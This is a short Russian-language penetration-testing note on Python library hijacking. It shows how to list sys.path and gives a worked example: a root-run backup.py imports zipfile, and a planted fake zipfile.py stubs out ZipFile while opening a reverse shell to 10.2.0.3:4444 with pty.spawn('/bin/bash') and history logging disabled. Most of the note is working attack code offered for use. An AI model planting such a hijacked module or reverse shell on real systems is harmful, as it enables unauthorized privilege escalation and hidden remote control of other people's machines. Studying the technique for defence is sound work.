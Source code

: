 # Hijacking Pyrhon

Вывод директорий в порядке приоритета подключения библиотек

```
python -c 'import sys; print "\n".join(sys.path)'
```

Если есть возможность подменить файл библиотеки, то стоит подменить в любой из доступных.

Альтернативный способ заключается в создании  py-файла с именем библиотеки и полезной нагрузкой. Пример скрипта предоставляющего лазейку

```
$ whoami
www-data

$ ls -la .
total 16
drwxr-xr-x  3 www-data www-data 4096 Sep 11 23:44 .
drwxr-xr-x 15 root     root     4096 Sep 11 23:40 ..
-rw-r--r--  1 root     root      353 Sep 11 23:44 backup.py
drwxr-xr-x  2 www-data www-data 4096 Sep 11 23:42 html

$ cat backup.py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

Пример полезной нагрзуки

```
// Some code
import os
import pty
import socket

lhost = "10.2.0.3"
lport = 4444

ZIP_DEFLATED = 0

class ZipFile:
    def close(*args):
        return

    def write(*args):
        return

    def __init__(self, *args):
        return

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
s.close()

```

